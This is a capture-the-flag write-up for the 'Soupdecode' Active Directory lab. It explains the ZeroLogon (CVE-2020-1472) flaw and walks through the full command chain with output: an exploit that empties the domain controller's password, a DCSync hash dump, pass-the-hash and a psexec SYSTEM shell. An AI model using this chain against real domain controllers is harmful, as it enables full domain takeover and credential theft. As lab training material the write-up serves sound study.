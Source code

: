```yaml
---
layout: writeup
category: HMV
chall_description: https://drive.google.com/file/d/13kHXXZy3Ar5KVgPbhMgy8Z-SgVeXiO3p/view?usp=drivesdk
points: 0
solves: 0
tags: Active-Directory
date: 2024-06-15
comments: true
---
```

## Introduction

**Soupdecode** is an Active Directory CTF laboratory which involves the explotation of multiple services. There are several ways to attack it, and I'll show some of them in this writeup. Let's just jump in.

## Enumeration

As always we start with the `nmap`:

```bash
nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n 192.168.0.118
```

Here we get some ports that are default on Active Directory:

```bash
❯ nmap -p- -sS --open --min-rate 5000 -vvv -Pn -n 192.168.0.118
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2024-06-15 13:40 CEST
Initiating ARP Ping Scan at 13:40
Scanning 192.168.0.118 [1 port]
Completed ARP Ping Scan at 13:40, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:40
Scanning 192.168.0.118 [65535 ports]
Discovered open port 135/tcp on 192.168.0.118
Discovered open port 445/tcp on 192.168.0.118
Discovered open port 139/tcp on 192.168.0.118
Discovered open port 49154/tcp on 192.168.0.118
Discovered open port 3268/tcp on 192.168.0.118
Discovered open port 49157/tcp on 192.168.0.118
Discovered open port 593/tcp on 192.168.0.118
Discovered open port 49161/tcp on 192.168.0.118
Discovered open port 88/tcp on 192.168.0.118
Discovered open port 49155/tcp on 192.168.0.118
Discovered open port 464/tcp on 192.168.0.118
Discovered open port 636/tcp on 192.168.0.118
Discovered open port 49158/tcp on 192.168.0.118
Discovered open port 3269/tcp on 192.168.0.118
Discovered open port 389/tcp on 192.168.0.118
Discovered open port 9389/tcp on 192.168.0.118
Completed SYN Stealth Scan at 13:41, 26.39s elapsed (65535 total ports)
Nmap scan report for 192.168.0.118
Host is up, received arp-response (0.00016s latency).
Scanned at 2024-06-15 13:40:47 CEST for 26s
Not shown: 65519 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
88/tcp    open  kerberos-sec     syn-ack ttl 128
135/tcp   open  msrpc            syn-ack ttl 128
139/tcp   open  netbios-ssn      syn-ack ttl 128
389/tcp   open  ldap             syn-ack ttl 128
445/tcp   open  microsoft-ds     syn-ack ttl 128
464/tcp   open  kpasswd5         syn-ack ttl 128
593/tcp   open  http-rpc-epmap   syn-ack ttl 128
636/tcp   open  ldapssl          syn-ack ttl 128
3268/tcp  open  globalcatLDAP    syn-ack ttl 128
3269/tcp  open  globalcatLDAPssl syn-ack ttl 128
9389/tcp  open  adws             syn-ack ttl 128
49154/tcp open  unknown          syn-ack ttl 128
49155/tcp open  unknown          syn-ack ttl 128
49157/tcp open  unknown          syn-ack ttl 128
49158/tcp open  unknown          syn-ack ttl 128
49161/tcp open  unknown          syn-ack ttl 128
MAC Address: 08:00:27:5F:F1:84 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
           Raw packets sent: 131071 (5.767MB) | Rcvd: 33 (1.436KB)
```

If we take a look at SMB, we can notice it's Windows Server 2008:

```bash
❯ cme smb 192.168.0.118
SMB         192.168.0.118   445    DC01             [*] Windows 6.1 Build 7600 x64 (name:DC01) (domain:soupedecode.local) (signing:True) (SMBv1:False)
```

## Foothold
### ZeroLogon

From the first moment that *ZeroLogon* was made public in August 2020, it quickly became one of those vulnerabilities that shake the cybersecurity world for several reasons: simplicity of exploitation and anyone can obtain the public exploits that would give the attacker full control of the domain. In other words, *ZeroLogon* allows any user, without even needing to have a domain account, to escalate privileges to the maximum in the domain.

This vulnerability was discovered by Tom Tervoot of Secura and is mainly found in the Netlogon service. Netlogon Remote Protocol is an RPC interface for domain controllers, which is used for different tasks such as user and machine authentication.

The purpose of this protocol is to make it easier for users to log on to servers using NTLM, but also to authenticate NTP responses or to allow a computer to update the password in the domain.

Netlogon does not use an authentication scheme similar to other RPC services. It uses a cryptographic protocol based on AES-CFB8. The idea is that client and server prove to each other that they know the shared secret. The shared secret is a hash of the client's computer account password. This is because Windows NT could not make use of standard schemes such as NTLM or Kerberos.

The implementation based on AES-CFB8 was not properly done. The client and server use a function called ComputeNetlogonCredential, which does not define random IVs and makes them fixed with zeros (up to 16 bytes). The probability of "predicting" and getting a block with all zeros is low for a given random key.

Following this principle, a call may be authenticated by providing an authenticator and a timestamp with all zeros and then using the NEtrServerPasswordSet2 call to set a new team account password with zero length, i.e. empty. If this is done against a domain controller's computer account, its password can be changed to null and it can now authenticate as a domain controller without a password.

Because this situation is not common, updating the password of a domain controller account to a null password can cause the domain to stop functioning properly. This is why it is not recommended to use this exploit in production environments and, in either case, as will be explained later, the pre-exploit password should be reset immediately after the exploit to avoid domain failures.

Full technical details of the vulnerability can be found in the blog posted by Secura at https://www.secura.com/blog/zero-logon.

For the proof of concept, we will use this machine called `Soupdecode 01`, which has hostname DC01 and IP 192.168.0.118. We will use [dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)'s exploit.

```bash
git clone https://github.com/dirkjanm/CVE-2020-1472.git
cd CVE-2020-1472
python3 cve-2020-1472-exploit.py DC01 192.168.0.118
```

> Note: We'll need to add `DC01` and `soupedecode.local` to our `/etc/hosts` to point to the IP

```bash
❯ python3 cve-2020-1472-exploit.py DC01 192.168.0.118
Performing authentication attempts...
========================================================================================================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

As of this time, the account `DC01$`, which is the computer domain account of the domain controller DC01, has a hash of a null password. This account ends with a `$` symbol since it is a computer account.

As now the credentials of the account of a domain controller are known, and these have privileges to do `DCSync` and thus obtain all the credentials of all the accounts, thus escalating privileges to the full domain.

To do so, we proceed to run `secretsdump.py` from Impacket in order to do `DCSync` using the `DC01$` account which is password-less. In this case, the command is the following:

```bash
secretsdump.py -no-pass -just-dc soupedecode.local/DC01\$@192.168.0.118
```

I'll save the output into a file to get all the hashes; I can retrieve Administrator's hash and check out if it works with `crackmapexec`:

```bash
❯ cme smb 192.168.0.118 -u administrator -H ace06395a1fd5d9f36bd9ae3ebf55fd8
SMB         192.168.0.118   445    DC01             [*] Windows 6.1 Build 7600 x64 (name:DC01) (domain:soupedecode.local) (signing:True) (SMBv1:False)
SMB         192.168.0.118   445    DC01             [+] soupedecode.local\administrator:ace06395a1fd5d9f36bd9ae3ebf55fd8 (Pwn3d!)
```

Now I simply use `psexec` to connect and read the flags:

```bash
❯ impacket-psexec -hashes :ace06395a1fd5d9f36bd9ae3ebf55fd8 soupedecode.local/Administrator@192.168.0.118
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] Requesting shares on 192.168.0.118.....
[*] Found writable share ADMIN$
[*] Uploading file CDPvGdUy.exe
[*] Opening SVCManager on 192.168.0.118.....
[*] Creating service SXLi on 192.168.0.118.....
[*] Starting service SXLi.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
a******************************a
C:\Windows\system32> dir C:\Users\
 Volume in drive C has no label.
 Volume Serial Number is BCB3-AE45

 Directory of C:\Users

06/10/2024  12:06 PM    <DIR>          .
06/10/2024  12:06 PM    <DIR>          ..
06/10/2024  03:28 PM    <DIR>          Administrator
07/13/2009  09:52 PM    <DIR>          Public
06/10/2024  12:06 PM    <DIR>          ybob317
               0 File(s)              0 bytes
               5 Dir(s)  27,351,764,992 bytes free

C:\Windows\system32> type C:\Users\ybob317\Desktop\user.txt
6******************************b
C:\Windows\system32> 
```

